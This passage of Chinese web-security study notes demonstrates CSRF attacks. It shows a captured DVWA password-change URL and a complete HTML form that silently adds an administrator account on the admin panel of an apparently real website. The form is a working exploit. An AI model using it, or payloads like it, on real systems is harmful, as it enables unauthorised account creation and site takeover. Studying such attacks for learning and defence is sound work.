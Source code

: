 长度排序, 发现开放了 135, 80
![portsort](https://i.imgur.com/qdJ5w9l.png)


## 9.2 CSRF 漏洞原理以及演示

### GET 类型
更改密码
![pass](https://i.imgur.com/5J97LsY.png)

抓包得到:
 <http://dvwa.com/vulnerabilities/csrf/?password_new=qweqwe&password_conf=qweqwe&Change=%E6%9B%B4%E6%94%B9>

直接用这个链接请求就能修改密码

### POST 类型

添加一个用户 giaogiao
![gioaigoa](https://i.imgur.com/TLbXQf3.png)

期间 burpsuite 抓包, 并解码如下:
![decode](https://i.imgur.com/1a8pKUj.png)

观察, 构造出 CSRF 的利用代码(html)
```html
<html>
    <body>
    <form
        action="http://www.huihuaguding.com/admin/index.php?c=administrator&a=add"
        method="POST">
        <input type="hidden" name="data[username]" value="giaogiao" />
        <input type="hidden" name="data[password]" value="giaogiao"
    />
        <input type="hidden" name="data[realname]" value="" />
        <input type="hidden" name="[roleid]" value="1" />
        <input type="hidden" name="submit" value="提交" />
        <input type="submit" value="提交" />
    </form>
    </body>
</html>
```

打开然后提交
![up](https://i.imgur.com/MFlpa29.png)


此时发现添加成功, 可以直接用该用户登陆
![add](https://i.imgur.com/PrBJ7vz.png)


## 9.3 xpath 漏洞原理以及演示
